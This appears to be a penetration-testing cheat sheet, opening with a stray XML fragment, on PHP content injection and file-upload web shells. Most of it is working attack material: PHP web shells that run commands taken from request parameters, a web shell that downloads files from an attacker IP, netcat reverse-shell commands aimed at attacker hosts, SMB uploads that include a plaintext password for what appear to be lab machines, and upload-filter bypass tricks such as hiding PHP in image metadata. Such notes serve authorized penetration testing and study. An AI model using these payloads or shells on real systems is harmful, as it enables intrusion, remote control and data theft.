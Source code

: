              <firstName>Tom</firstName>
            </org.opencrx.kernel.account1.Contact>

## PHP Content Injection:  

	Anywhere to edit and then execute/access a .php file? - Wordpress/Joomla theme file, etc.
		See reverse shells page - pick language based on web page format
			*PHP Advanced Content Inject Reverse Shell
	Troubleshooting:  try URL encoding of characters; if shell is blocked, try common port like 80 or 443
	Test:  <?php phpinfo(); ?>
	ex. <?php echo shell_exec($_GET['cmd']); ?>
		http://127.0.0.1/webshell.php?cmd=id
		http://127.0.0.1/wordpress/?cmd=nc [IP attack box] [port] -e /bin/sh
	ex. <?php system($_GET["cmd"]); ?>
	ex. <?php passthru($_GET["cmd"]); ?>	
	ex. PHP Non-Interactive Web Shell:
		<?php if (isset($_REQUEST[‘fupload’])) { file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); }; if (isset($_REQUEST[‘fexec’])) { echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; }; ?>
		Access: <filename>.php?fupload=nc.exe (for example) and <filename>.php?fexec=nc IP PORT
	Injection Test:
		<?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
		<?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
		<?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
		<?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>

	
## File Upload / Web Shells:  

	General Upload Test:  `davtest -url http://10.10.10.15`
	Look for alternate upload locations: SMB, FTP, etc.
		Example:
			smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put cmd.php cmd.php'
			curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=whoami
			smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put nc.exe nc.exe'
			curl -s -X GET http://secnotes.htb:8808/cmd.php?cmd=nc.exe+-e+cmd.exe+10.10.14.3+443
	PHP Web Shell:  ex. https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php	
	Filter Bypass:
		https://book.hacktricks.xyz/pentesting-web/file-upload
		https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
		- Rename:
			Try upload as shell.php.jpg or shell.php%00.jpg or shell.jpg.php
			.php, .pht, .phtml, .php3, .php4, .php5, .inc
			.asp, .aspx
			.pl, .pm, .cgi, .lib
			.jsp, .jspx, .jsw, .jsv, .jspf
			.cfm, .cfml, .cfc, .dbm
		- Rename after uploading (ex. upload as .html, then move to .aspx):
			    - Upload file with curl:  `curl http://10.10.10.15/ --upload-file shell.txt`
				- or:   `curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php`
			- Move/Rename file:  `curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt`
				- ex.  `curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt`
		-Bypass MIME type validation:
			Burpsuite: modify POST request Content-Type header
			Edit magic bytes:  echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime.php.png
				Or:  add before shellcode: `GIF89a;`
		-Image Hidden PHP Code (bypasses getimagesize() validation):
			w/ Gimp--put code in properties/comments 
			exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
	ex. PHP code in image:
		cp original.png ./shell.php.png
		echo '<?php' >> ./shell.php.png